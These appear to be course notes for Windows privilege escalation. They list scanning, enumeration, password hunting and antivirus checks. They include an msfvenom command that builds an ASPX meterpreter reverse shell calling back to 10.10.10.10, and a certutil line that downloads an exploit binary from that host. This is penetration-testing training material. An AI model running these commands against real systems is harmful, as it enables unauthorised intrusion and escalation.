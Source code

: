 # Windows Privilege Escalation Course

**Gaining a Foothold**

```text
nmap -A -T4 -p- IP  

aspx simple Metasploit shell  

msfvenom -p windows/meterpreter/reverse\_tcp LHOST=10.10.10.10 LPORT 4444 -f aspx > exploit.aspx
```

**Enumeration**

System Enumeration

```text
getuid  

sysinfo  

systeminfo
```

_Check For patches_

```text
wmic qfe

wmic qfe get Caption,Description, HotFixID, InstalledOn  

wmic logicaldisk get caption,description,providername
```

User Enumeration

```text
whoami  
whoami /priv  
whoami /groups  
net user  
net user raviraj  
net localgroup
```

Network Enumeration

```text
ipconfig /all  
arp -a  
route print  
netstat -ano
```

**Password hunting**

```text
findstr /si password \*.txt \*.ini \*.config
```

**- A/V and Firewall Enumeration**

\(service control\)

```text
sc query windefend  
sc queryex type= service  

netsh advfirewall firewall dump  
netsh firewall show state  
netsh firewall show config
```

**Exploring Automated Tools**

\( Executables \)

winPeas.exe  
Seatbelt.exe\(compile\)  
Watson.exe\(compile\)  
SharpUp.exe\(compile\)

\( PowerShell \)

Sherlock.ps1  
PowerUp.ps1  
jaws-enum.ps1

\( Other \)

windows-exploit-suggester.py \(local\)  
Explit Suggester \(Metasploit\)

**pip Install command**

```text
curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py; python get-pip.py
```

**Escalation Path : Kernel exploit**  
~~~~~~~~~~~~~

File Transfer utility in windows

```text
certutil -urlcache -f http://10.10.10.10/MS10-059.exe ms.exe
```

**Escalation Path : Password**  
~~~~~~~~~~~~~

**Escalation Path :** Windows subsystem for Linux  
~~~~~~~~~~~~~

